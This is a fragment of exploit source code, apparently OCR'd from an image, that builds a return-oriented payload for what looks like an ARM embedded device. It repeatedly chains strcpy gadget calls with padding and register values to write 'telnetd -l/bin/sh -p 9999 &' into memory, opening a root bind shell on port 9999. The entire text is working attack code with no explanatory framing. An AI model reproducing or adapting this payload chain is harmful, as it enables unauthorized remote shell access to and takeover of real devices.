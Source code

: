```
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+16) #R4
    expayload += p32(0x40CEC) #R5  //telnetd\x20-l/bin/
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy


    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+18) #R4
    expayload += p32(0x9CB5) #R5  //telnetd\x20-l/bin/sh
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy


    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+22) #R4
    expayload += p32(0x41B17) #R5  //telnetd\x20-l/bin/sh\x20-p\x20
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+24) #R4
    expayload += p32(0x03FFC4) #R5  //telnetd\x20-l/bin/sh\x20-p\x2099
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+26) #R4
    expayload += p32(0x03FFC4) #R5  //telnetd\x20-l/bin/sh\x20-p\x209999
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+28) #R4
    expayload += p32(0x4A01D) #R5  //telnetd\x20-l/bin/sh\x20-p\x209999\x20&
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+30) #R4
    expayload += p32(0x461C1) #R5  //telnetd\x20-l/bin/sh\x20-p\x209999\x20&\x20\x00
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
```